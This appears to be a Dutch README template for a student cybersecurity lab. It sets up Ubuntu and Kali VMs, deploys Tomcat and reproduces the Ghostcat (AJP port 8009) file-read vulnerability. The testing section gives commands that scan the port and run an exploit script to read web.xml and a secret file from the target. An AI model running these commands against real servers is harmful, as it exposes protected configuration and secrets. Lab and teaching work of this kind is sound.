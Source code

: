 # Uitrol

## Doel en overzicht: Beschrijft de software of het systeem dat wordt geïmplementeerd. Doelen van de deployment (bijv. nieuwe versie, bugfixes, etc.).

## Systeemvereisten: Hardware- en softwarevereisten (bijv. besturingssysteem, geheugen, schijfruimte, etc.). Externe afhankelijkheden (bijv. andere software, netwerkinstellingen, databases).

Voor te installeren hebben we twee scripts voorzien

1. init.ps1; deze werkt enkel op Windows + voor als u de vdi's al op uw computer heeft staan: u moet zelf vdi's in de desbetreffende pad zetten namelijk:
   - \user\ [naam_gebruiker]\Downloads\64bit\64bit\ [vdi]) voor eerste vdi
   - \user\ [naam_gebruiker]\Downloads\64bit (1)\64bit\ [vdi] voor tweede vdi
2. 2init.ps1; deze werkt zowel op Windows als Linux + dit is een complete automatisatie: u hoeft niets te doen (vdi's worden van uit het internet afgehaald en geplaatst in het correcte pad)

In deze installatie wordt er gebruik gemaakt van

- Ubuntu 24.10 (64bit) vdi en
- Kali Linux 2024.3 (64bit) vdi

**Opgelet**: Zorg ervoor dat deze vdi's niet reeds op uw computer staan om conflicten te vermijden. 

Voor alles te deinstalleren voert u het script nog een keer uit in de terminal, er wordt om bevestiging gevraagd.

...

## Installatie-instructies: Stap-voor-stap instructies voor het installeren van de software. Waar de bestanden te vinden zijn (bijv. downloadlink, locatie van installatiebestanden). Vereiste rechten voor installatie (bijv. beheerdersrechten).

- Ubuntu 24.10 (64bit) vdi -> 
- Kali Linux 2024.3 (64bit) vdi -> https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2024.3/64bit.7z/download

## Configuratie-instellingen: Configuratie-instellingen die mogelijk moeten worden aangepast om de software goed te laten functioneren. Aanpassingen aan netwerkconfiguraties, databases, services, of beveiligingsinstellingen.

- Ubuntu VM ->

- Kali VM ->

## Testen: Richtlijnen voor het testen van de geïnstalleerde software om ervoor te zorgen dat deze werkt zoals verwacht. Eventuele testscenario’s of validatie van functionaliteit.

Nu dat de virtuele machines correct geinstalleerd staan, gaan we beginnen met deze op te starten.

START DE UBUNTU VM
1) Het wachtwoord is osboxes.org
2) (indien je wil kan je de instellingen verander voor het toetsenbord zodat het makkelijker is om de commando's uit te voeren)
      2.1) ga naar instellingen -> toetsenbord -> 
3) open de terminal en voer de volgende commando's uit
4) sudo apt install openssh-server -y
5) sudo systemctl start ssh
6) sudo systemctl enable ssh
7) mkdir ghostcat
8) ip a

(kijk welk ip adres de ubuntu vm heeft)
(De 2 bestanden kopieren naar Ubuntu (gebruik jouw eigen pad en ip van de vms))

10) scp C:/Users/[gebruiker]/cyber-npe-opdracht/scripts/bash/setup_tomcat.sh osboxes@[ip adres van de ubuntu vm]:~/ghostcat/setup_tomcat.sh
11) scp C:/Users/[gebruiker]/cyber-npe-opdracht/scripts/dockerfile/Dockerfile osboxes@[ip adres van de ubuntu vm]:~/ghostcat/Dockerfile
12) chmod +x  setup_tomcat.sh
13) ./setup_tomcat.sh
    
(het ip adres van de ubuntu vm)

15) curl http://[ip adres van de ubuntu vm]:8080/

START DE KALI VM
1) Het wachtwoord is osboxes.org
2) (indien je wil kan je de instellingen verander voor het toetsenbord zodat het makkelijker is om de commando's uit te voeren)
      2.1) ga naar instellingen -> toetsenbord -> 

3) sudo systemctl start ssh
4) sudo systemctl enable ssh
5) ip a

(kijk welk ip adres de ubuntu vm heeft)
(gebruik jouw eigen pad en ip van de vms)

6) scp C:/Users/[gebruiker]/cyber-npe-opdracht/scripts/python/exploit_ghostcat.py osboxes@[ip adres van de kali vm]:~/exploit_ghostcat.py
7) chmod +x exploit_ghostcat.py
8) nmap [ip adres van de ubuntu vm] -p 8009

(Voer de exploit uit:)

9) python3 exploit_ghostcat.py http://[ip adres van de ubuntu vm]:8080/ 8009 /WEB-INF/web.xml read
10) python3 exploit_ghostcat.py http://[ip adres van de ubuntu vm]:8080/ 8009 /WEB-INF/secret.txt read

## Rollback-plan: Instructies voor wat te doen als er iets misgaat tijdens de implementatie (bijv. hoe je terug kunt keren naar de vorige versie). Back-upprocedures.

## Ondersteuning en foutoplossing: Veelvoorkomende problemen en oplossingen. Contactinformatie voor technische ondersteuning.

indien er een probleem zou zijn met het ip adres kan je deze zelf aanpassen zodat je zeker bent welk ip adres je hebt via volgende stappen:

in ubuntu:
   1) ga naar het netwerkicoon
   2) open de netwerkinstellingen
   3) selecteer Wired
   4) selecteer bewerken
   5) ga naar IPv4
   6) selecteer handmatig
   7) kies nu een ip adress die je aan de kali vm wil geven (voorbeeld: 192.168.56.115)
   8) stel de subnetmask in met 255.255.255.0
   9) stel de DNS-server in met 8.8.8.8
   10) controleer nu in terminal met commando "ip a" of dit adres ook klopt
       
in kali:
   1) ga naar het netwerkicoon
   2) open de netwerkinstellingen
   3) selecteer Wired Connection 1
   4) selecteer bewerken
   5) ga naar IPv4
   6) selecteer handmatig
   7) kies nu een ip adress die je aan de kali vm wil geven (voorbeeld: 192.168.56.116)
   8) stel de subnetmask in met 255.255.255.0
   9) stel de DNS-server in met 8.8.8.8
   10) controleer nu in terminal met commando "ip a" of dit adres ook klopt
## Versiebeheer: Versie-informatie van de geïmplementeerde software. Veranderingen of nieuwe functies in de versie die wordt gedeployed.

## Schaling en onderhoud: Hoe het systeem kan worden opgeschaald of uitgebreid. Instructies voor regelmatige onderhoudstaken of updates na de deployment.
